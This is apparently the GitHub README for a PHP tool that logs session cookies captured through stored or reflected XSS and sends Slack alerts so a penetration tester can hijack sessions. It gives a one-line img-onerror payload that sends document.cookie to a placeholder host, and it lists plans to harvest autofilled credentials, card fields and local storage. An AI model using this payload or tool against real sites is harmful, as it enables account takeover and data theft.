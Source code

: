 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

Future Implementation Goals Include : 

Capturing Cross Domain Cookies
Hidden User/Pass/CC Fields for Auto Population
Ability to Read Local Storage if Available
Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is Discovered During an Application Security or Penetration Test, Simply Use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1` as Your Payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work.


![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
